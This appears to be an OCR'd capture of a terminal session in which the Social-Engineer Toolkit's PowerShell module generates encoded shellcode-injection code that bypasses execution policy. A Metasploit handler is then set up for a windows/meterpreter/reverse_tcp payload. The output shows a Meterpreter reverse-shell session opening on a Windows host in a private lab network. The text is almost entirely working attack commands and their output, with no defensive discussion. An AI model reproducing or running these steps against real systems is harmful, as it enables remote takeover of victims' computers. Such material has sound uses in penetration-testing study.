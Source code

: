 ```
  11) Third Party Modules

  99) Return back to the main menu.

set> 10

The Powershell Attack Vector module allows you to create PowerShell specific attacks. These attacks will allow you to use PowerShell which is available by default in all operating systems Windows Vista and above. PowerShell provides a fruitful  landscape for deploying payloads and performing functions that  do not get triggered by preventative technologies.

   1) Powershell Alphanumeric Shellcode Injector
   2) Powershell Reverse Shell
   3) Powershell Bind Shell
   4) Powershell Dump SAM Database

  99) Return to Main Menu

set:powershell>1
set> IP address for the payload listener: 192.168.200.159
set:powershell> Enter the port for the reverse [443]:4444
[*] Prepping the payload for delivery and injecting alphanumeric shellcode...
[*] Generating x86-based powershell injection code...
[*] Finished generating powershell injection bypass.
[*] Encoded to bypass execution restriction policy...
[*] If you want the powershell commands and attack, they are exported to /root/.set/reports/powershell/
set> Do you want to start the listener now [yes/no]: : yes

..SNIP...

[*] Processing /root/.set/reports/powershell/powershell.rc for ERB directives.
resource (/root/.set/reports/powershell/powershell.rc)> use multi/handler
resource (/root/.set/reports/powershell/powershell.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/.set/reports/powershell/powershell.rc)> set lport 4444
lport => 4444
resource (/root/.set/reports/powershell/powershell.rc)> set LHOST 0.0.0.0
LHOST => 0.0.0.0
resource (/root/.set/reports/powershell/powershell.rc)> exploit -j
[*] Exploit running as background job.
msf exploit(handler) > 
[*] Started reverse handler on 0.0.0.0:4444 
[*] Starting the payload handler...
[*] Sending stage (769024 bytes) to 192.168.200.158
[*] Meterpreter session 1 opened (192.168.200.159:4444 -> 192.168.200.158:49818) at 2014-10-23 18:17:35 +0800

msf exploit(handler) > sessions 

Active sessions
===============

  Id  Type                   Information                               Connection
  --  ----                   -----------                               ----------
  1   meterpreter x86/win32  WIN-M49V8M0CSH2\server @ WIN-M49V8M0CSH2  192.168.200.159:4444 -> 192.168.200.158:49818 (192.168.200.158) 
```
